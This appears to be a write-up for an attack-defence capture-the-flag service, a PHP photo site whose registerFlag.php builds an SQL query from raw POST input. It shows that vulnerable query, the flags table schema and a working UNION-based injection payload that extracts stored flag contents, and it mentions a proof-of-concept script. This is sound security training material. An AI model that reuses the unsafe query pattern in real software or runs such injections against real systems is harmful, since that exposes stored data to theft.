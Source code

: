 # Syper Service

## Description

> Password-protected daily picture service for the web.

This services is provided by the team *SYPER* and is a website which provides
a random photo to every authenticated users.

The website is actually composed of 3 main pages. `index.php` which gives a
user to possibility to authenticate, `secret.php` which shows the daily
picture to authenticated users and `register.php` to register your account.

### Flag

Flag Description:

> Flags are identified by a random alphanumeric string of 20 chars.

Flags are treated in a different page which isn't really linked to the rest of
the pages. Everything is done in `registerFlag.php`.

A ``POST`` request on this page with parameters `flag_id`, `password` and
`flag_content` will register the flag if it doesn't exist.


## Vulnerabilities

If we look in `config.php` we find out the service is using 2 different
sqlite databases for flags and users:

```php
$db = new PDO('sqlite:../rw/db/messaging.sqlite3');
$flags_db = new PDO('sqlite:../rw/db/flags.sqlite3');
```

As `$flags_db` is only used in `registerFlag.php`, no need to take a look
somewhere else. In addition the SQL injection is very obvious:

```php
// Check if the flag_id is already register
$query = "SELECT * from flags where flag_id='".$_POST['flag_id']."';";
```

If a result is fetch from the database, a message is printed:

```php
if ($repeated){ echo '<h1>FAILED!</h1><BR><p> FLAG_ID: '.$row['flag_id'].' already registered<BR>';}
```

We can then take advantage of that, replacing `$row['flag_id']` with the
content of the flag instead.

## Proof of Concept

### Manual proof

We must first know the structure of the database to know in which column
the *flag* must be inserted: 

```
sqlite> .schema flags
CREATE TABLE flags (
                      id INTEGER PRIMARY KEY, 
                      flag_id TEXT,
                      flag_token TEXT,
                      flag_content TEXT, 
                      time TEXT);

```

One of the many possible SQL injection is then:

```sql
abc' AND 0 UNION SELECT 1,flag_content,3,4,5 FROM flags WHERE flag_id='XXX' AND ''='
```

Here is the result with the flag in it:

![SQLi Result with flag][sqli]


### Automated PoC

The script [poc.py][poc] retrieve the flag from a provided *ip*, *port* and
*flag_id*.

On of the thing to take care of is having an non-empty `flag_content` sent to
the server. Otherwise, the request won't be treated.



[sqli]: assets/sqli_result.png
[poc]: poc.py
